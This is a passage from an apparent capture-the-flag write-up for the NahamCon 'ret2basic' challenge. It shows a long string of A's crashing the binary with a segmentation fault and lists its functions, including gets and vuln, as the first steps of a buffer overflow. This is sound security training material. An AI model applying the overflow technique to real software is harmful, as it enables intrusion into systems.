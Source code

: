 Testing the binary:

```shell
cfx:  ~/Documents/nahamcon/binary
→ ./ret2basic
Can you overflow this?: AAAAAAAAAAAAAAAAAAAAAAAA
Nope :(
```

Using python3 to generate long string:

```shell
cfx:  ~/Documents/nahamcon/binary
→ python3 -c "print('A'*200)"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Sending the string to binary:

```shell
cfx:  ~/Documents/nahamcon/binary
→ ./ret2basic
Can you overflow this?: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault
```

On sending 200 A's we receive segmentation fault which indicates somewhere we overwrote a address which supposedly caused the binary to crash.

### Functions

Next We take a look at the functions inside this binary, we'll make use of `readelf` to dump all the functions:

```shell
cfx:  ~/Documents/nahamcon/binary
→ readelf -s ret2basic | grep "FUNC"
     1: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND free@GLIBC_2.2.5 (2)
     3: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND puts@GLIBC_2.2.5 (2)
     4: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND [...]@GLIBC_2.2.5 (2)
     5: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND [...]@GLIBC_2.2.5 (2)
     6: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND [...]@GLIBC_2.2.5 (2)
     7: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND [...]@GLIBC_2.2.5 (2)
     8: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND [...]@GLIBC_2.2.5 (2)
     9: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND fgets@GLIBC_2.2.5 (2)
    10: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND ftell@GLIBC_2.2.5 (2)
    12: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND gets@GLIBC_2.2.5 (2)
    13: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND [...]@GLIBC_2.2.5 (2)
    14: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND fseek@GLIBC_2.2.5 (2)
    15: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND fopen@GLIBC_2.2.5 (2)
    16: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND exit@GLIBC_2.2.5 (2)
     6: 0000000000401140     0 FUNC    LOCAL  DEFAULT   14 deregister_tm_clones
     7: 0000000000401170     0 FUNC    LOCAL  DEFAULT   14 register_tm_clones
     8: 00000000004011b0     0 FUNC    LOCAL  DEFAULT   14 __do_global_dtors_aux
    11: 00000000004011e0     0 FUNC    LOCAL  DEFAULT   14 frame_dummy
    22: 00000000004013d0     5 FUNC    GLOBAL DEFAULT   14 __libc_csu_fini
    23: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND free@GLIBC_2.2.5
    27: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND puts@GLIBC_2.2.5
    28: 000000000040130f    45 FUNC    GLOBAL DEFAULT   14 vuln
    31: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND fclose@GLIBC_2.2.5
    32: 00000000004013d8     0 FUNC    GLOBAL HIDDEN    15 _fini
    33: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND setbuf@GLIBC_2.2.5
    34: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND printf@GLIBC_2.2.5
    35: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND rewind@GLIBC_2.2.5
```